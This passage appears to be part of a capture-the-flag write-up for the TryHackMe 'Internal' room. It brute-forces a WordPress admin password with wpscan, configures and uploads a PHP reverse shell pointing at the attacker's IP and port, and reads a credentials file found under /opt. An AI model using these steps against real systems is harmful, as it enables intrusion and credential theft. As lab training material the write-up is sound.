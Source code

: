 * found a Valid username, let's try bruteforcing with `wpscan`:

```bash
wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 30

[+] Performing password attack on Xmlrpc against 1 user/s
[!] Valid Combinations Found:
 | Username: admin, Password: [password-was-here]
```

* Creds worked just fine, now we're logged in as `admin` in wordpress! let's use a php shell to gain backdoor access.

## user

* find and edit php shell:

     ```bash
     # Find shell: (in Kali linux )
     cp /usr/share/laudanum/php/php-reverse-shell.php shell.php #copy shell to current dir ~/thm/internal/www

     # edit the IP & port

     $ip = '10.17.4.40';  // CHANGE THIS
     $port = 1337;       // CHANGE THIS
     ```

* upload shell:
  
  ![img](https://i.imgur.com/OXq644A.png)

* get the access:
  
  ![img](https://i.imgur.com/cElXG8O.png)

* can't read `user.txt`
  
     ```bash
     $ ls -l /home
     total 4
     drwx------ 7 aubreanna aubreanna 4096 Aug  3  2020 aubreanna
     ```

* enumeration # got hint for look into `/opt`

     ```bash
     $ ls /opt
     containerd
     wp-save.txt
     $ cat /opt/wp-save.txt
     Bill,
     Aubreanna needed these credentials for something later.  Let her know you have them and where they are.
     aubreanna:[password-was-here]
     ```
